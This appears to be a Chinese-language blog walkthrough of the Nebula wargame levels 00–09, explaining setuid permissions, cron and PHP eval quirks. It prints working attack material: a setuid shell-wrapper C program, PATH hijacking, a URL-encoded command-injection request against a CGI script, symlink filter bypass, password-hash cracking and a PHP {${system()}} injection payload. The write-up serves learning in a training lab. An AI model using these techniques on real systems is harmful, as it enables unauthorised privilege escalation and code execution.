本文是在解决[Exploit-exerceses](https://exploit-exercises.com)上**Nebula**中题目（Level00~09）时的一些思考与记录。

---

## Level00

题目介绍：

> This level requires you to **find** a Set User ID program that will run as the “flag00” account. You could also find this by carefully looking in top level directories in / for suspicious looking directories.
>
> Alternatively, look at the find man page.

这道题目的提示非常明确，可以直接用`find`命令查找文件。但我们首先需要搞明白——这个**Set User ID**是什么东西？

### Linux三种特殊类型权限

可执行文件和公共目录可以使用三种特殊类型的权限：`setuid`、`setgid` 和 sticky 位。这三种特殊的权限仍然用八进制数值表示，放于 u/g/o 位之前，其中 `suid: 4，sgid: 2，sticky：1`。 

#### setuid 权限

对可执行文件设置 `setuid` 权限时，将对运行该文件的进程授予基于文件所有者的访问权限。该访问权限**不是**基于正在运行可执行文件的用户。使用此特殊权限，用户可以访问通常只有属主才可访问的文件和目录。

	-r-sr-sr-x   1 root     sys       56808 Jun 17 12:02 /usr/bin/passwd
Linux中每个进程关联着三个`user id`:

- **real user id**：对应着创建进程的用户的user id
- **effective user id**：决定了进程访问文件的权限。比如上述`passwd`更改用户密码的程序，普通用户是没有对`/etc/passwd`文件的读写权限的，而`passwd`程序通过设置`setuid`位，使得普通用户运行此程序时获得了该文件所有者（root用户）的权限，即`effective user id`设置为了root的user id，也就能够对passwd文件进行修改了
- **saved user id**：是effective-user-id的一份拷贝

#### setgid 权限

`setgid` 权限与 `setuid` 权限类似。可将进程的有效组 ID (group ID, GID) 更改为拥有该文件的组，并基于授予该组的权限对用户授予访问权限。

	-r-x--s--x   1 root   mail     71212 Jun 17 12:01 /usr/bin/mail
#### sticky 位

**sticky 位**是保护目录中文件的权限位。如果对目录设置了 sticky 位，则只有文件所有者、目录所有者或特权用户才可以删除文件。`root` 用户是特权用户的一个示例。sticky 位禁止用户从公共目录（如 `/tmp`）中删除其他用户的文件：

	drwxrwxrwt 7  root  sys   400 Sep  3 13:37 tmp
### 题解

查询find文档，可以看到下述说明：

> -perm *mode*
>
> File's permission bits are exactly *mode* (octal or symbolic). Since an exact match is required, if you want to use this form for symbolic modes, you may have to specify a rather complex mode string. For example **-perm g=w** will only match files which have mode 0020 (that is, ones for which group write permission is the only permission set). It is more likely that you will want to use the '/' or '-' forms, for example **-perm -g=w**, which matches any file with group write permission. See the **EXAMPLES**section for some illustrative examples.

所以通过以下命令来寻找*a Set User ID program that will run as the “flag00” account*：

	find / -user flag00 -perm -4000

可以发现有结果：

	/rofs/bin/.../flag00

进入目录运行，结束：



---

## Level01

题目介绍：

> There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

程序源码：

``` c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

运行`/usr/bin/env cmd`时， 会在环境变量里的`$PATH`中搜寻`cmd`，并执行第一个目录中找到的`cmd`程序，所以我们只需要把`getflag`程序重命名为`echo`，并且把它放到重新设置的`PATH`目录中即可。



---

## Level02

题目描述：

> There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

源码：

``` c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```


直接使用shell中的命令替换符` `` `或者`$()`（不过注意转义特殊字符）：



---

## Level03

题目描述：

> Check the home directory of **flag03** and take note of the files there.
> There is a crontab that is called every couple of minutes.

查看用户flag03的主目录可以发现两个有一个目录`writable.d`和一个shell脚本`writable.sh`。

``` shell
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

`ulimit`命令用于设置或报告用户进程资源极限，此处关系不大；而`bash -x "$i"`则会执行`$i`所代表的文件脚本（此处`$i`变量内是文件的绝对路径），随后将文件删除。

### crontab

题目中提到`crontab`，通过它我们可以设置用户的计划任务，该命令用法如下：



crontab的文件格式为（中间以空格分隔开）：

	分 时 日 月 星期 要运行的命令
	- 第1列分钟0～59
	- 第2列小时0～23（0表示子夜）
	- 第3列日1～31
	- 第4列月1～12
	- 第5列星期0～7（0和7表示星期天）
	- 第6列要运行的命令

例子：

	# echo the date to the console every
	# 15minutes between 6pm and 6am
	0,15,30,45 18-06 * * * /bin/echo 'date' > /dev/console
在题目中没有找到方法查看用户flag03的计划任务，但是经过实验，`writable.sh`脚本应该在计划任务内，每隔一段时间就会执行。

### 题解

既然我们可以构造shell脚本让flag03用户执行，那么我们就可以想办法来直接获取flag03的shell。

编写、编译C程序：

``` c
//bash.c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv) {
    if (argc != 2) {
		printf("Usage: bash <uid>\n");
		return 1;
    }
	int uid = atoi(argv[1]);
	setresuid(uid, uid, uid);
	setresgid(uid, uid, uid);
    system("/bin/bash");
	return 0;
}
```

想法是利用脚本，以flag03的身份将上述程序复制并设置它的`set-user-id bit`，然后我们就能以level03用户运行此程序并获取flag03用户的shell。

放置于`writable.d`目录下的脚本内容如下：

``` shell
cp /tmp/bash /home/flag03/bash
chmod +s /home/flag03/bash
```

这里需要说明以下几点：

- 通过查看`/etc/passwd`文件，可以获得flag03用户的USER ID和GROUP ID是996；
- 只设置`set-user-id bit`然后在程序里面直接`system("/bin/bash");`是拿不到flag03的shell的，此时程序的ruid是1004（level03的USER ID）、euid是996，运行程序后依然是level03的shell；需要使用`setresuid()`函数设置ruid、euid、suid。至于`setresgid()`则不是必要的，虽然获取的shell会稍有不同；
- 复制编译出的bash程序是为了改变文件的owner；
- 需要将编译出的bash程序放置在一个flag03可读并且level03可写的目录下，这里选择了`/tmp`目录，但复制的目标目录不能是`/tmp`目录，原因是`/tmp`目录有`nosuid`选项，`suid bit`无法生效，可以使用`mount`命令查看。



---

## Level04

题目描述：

> This level requires you to read the **token** file, but the code restricts the files that can be read. Find a way to bypass it :)

程序源码：

``` c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));
  
  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
```

可以看出，是检验参数中有无`token`字符串，如果有则报错。可以从另一个角度入手，用其他文件名来代表token文件。这就想到链接——`ln`命令。

经过测试，软链接和硬链接均可：



---

## Level05

> Check the **flag05** home directory. You are looking for weak directory permissions

进入flag05用户的主目录后，可以看到有`.backup`目录，里面有一个压缩文件，存放着公私钥，另外还有`.ssh`目录，可以联想到压缩文件内可能是`.ssh`目录的备份。

我们可以解压文件到我们自己的目录，可以看到authorized_keys文件内正好是文件夹内对应的公钥，如果这就是flag05用户`.ssh`目录的备份的话，就可以直接ssh连接至flag05用户。

事实的确如此，ssh可以直接登入flag05账户并getflag：



---

## Level06

题目描述：

> The **flag06** account credentials came from a legacy unix system.

进入flag06用户主目录后无法发现什么特别的东西，注意到`a legacy unix system`，因此可以联想到可能是`/etc/passwd`文件的问题。

查看`/etc/passwd`文件，发现：

	flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh

在linux中，口令文件在/etc/passwd中，早期的这个文件直接存放加密后的密码。为了安全，现在的linux都提供了 /etc/shadow这个影子文件，密码放在这个文件里面，并且是只有root可读的。

这里面第二个字段不是`x`，而是有内容的。可以利用kali中的`john`来破解，得到：

	flag06:hello:993:993::/home/flag06:/bin/sh

所以密码就是`hello`，直接`su flag06`切换用户登录即可。

---

## Level07

这道题目采用的`thttpd`与`cgi`结合的方式来搭建网络应用，可以在flag07用户目录下看到配置文件`thttpd.conf`，可以看到服务器监听端口为`7007`，查看cgi文件中的代码实现存在比较明显的命令注入问题。

我们采用与level03相同的方法来获取shell，编写并编译获取shell的C程序。利用`cgi`程序的命令注入来将程序拷贝并增加`suid bit`。

将编译好的程序放至`/tmp/bash`，然后访问以下网址（其中要注意URL编码的问题）：

	http://your-ip:7007/index.cgi?Host=127.0.0.1%3bcp%20/tmp/bash%20/home/flag07/bash%3bchmod%20%2bs%20/home/flag07/bash

之后可以看到flag07目录下已经有了`bash`文件，执行获取shell：



---

## Level08

此题在flag08用户目录下可以看到一个`capture.pcap`文件，显然是一个流量包文件，将它下载后（可以使用scp、sftp等方法下载）用`wireshark`打开分析，可以看到以下内容：



可以看到此处有输入的密码，注意密码中的`.`是不可见字符，查看流量包可以发现它对应的是ASCII的`7f`——即为`DEL`删除。所以实际的密码是`backd00Rmate`。

使用此密码登录flag08账户即可。

---

## Level09

题目给出如下PHP代码：

``` php
<?php

function spam($email)
{
  $email = preg_replace("/\./", " dot ", $email);
  $email = preg_replace("/@/", " AT ", $email);
  
  return $email;
}

function markup($filename, $use_me)
{
  $contents = file_get_contents($filename);

  $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
  $contents = preg_replace("/\[/", "<", $contents);
  $contents = preg_replace("/\]/", ">", $contents);

  return $contents;
}

$output = markup($argv[1], $argv[2]);

print $output;

?>
```

这里注意到它在`preg_replace`函数的`pattern`中使用了`/e`修饰符，参考[`preg_replace`的PHP Manual](http://php.net/manual/zh/function.preg-replace.php)，在使用`/e`修饰符的时候，函数的第二个`replacement`参数**在完成后向引用解析后， 引擎会将结果字符串作为php代码使用eval方式进行评估并将返回值作为最终参与替换的字符串**。

所以这里首先想到的是考虑命令注入`spam("\2")`，输入文件构造为`[email <code>]`（`<code>`处为注入代码），然而函数在进行后向引用替换时会转义一些字符(即：`'`、`"`、`\`和`NULL`) ，所以无法闭合`spam`函数，此路不通。

随后通过查阅资料发现，在`<code>`处插入`{${system(getflag)}}`即可实现以flag09运行getflag：



确实成功以flag09执行了getflag，但网上的其他解答中都对其原理解释得不甚清楚。事实上，此处的关键已经不在于eval了，而在于**PHP对于字符串中变量的解析**。

可以参见[PHP string的Manual](http://php.net/manual/zh/language.types.string.php)，其中在变量解析部分提到了`复杂（花括号）语法`，其中提到了引用**以函数返回值为变量名的变量**的方法——`{${getName()}}`，这样在解析字符串的时候，`getName()`这一函数就会被执行。

那么这也就解释了上述运行的输出信息，PHP将`system(getflag)`当作了返回变量名的函数来执行，注意到`getflag`并不是一个合理的输出字符串参数，但PHP默认将它认定为了字符串`getflag`，所以函数`system(getflag)`得以执行，并且打印了`getflag`的输出。随后将`system(getflag)`的返回值作为变量名来解析，自然它是一个未定义的变量，就打印了一个`Undefined variable`的Notice。

可以验证，直接一个字符串即可执行函数：



那么现在我们找到了可以执行`system`的方法，但是它的参数却不能任意输入。于是自然联想到了一个未曾用到的参数——`use_me`（它的名字都有如此强烈的提示信息！）。于是可以这样构造输入文件（`/tmp/flag09`）的内容：

	[email {${system($use_me)}}]

仍然使用我们之前Level03编译的bash程序来getshell：

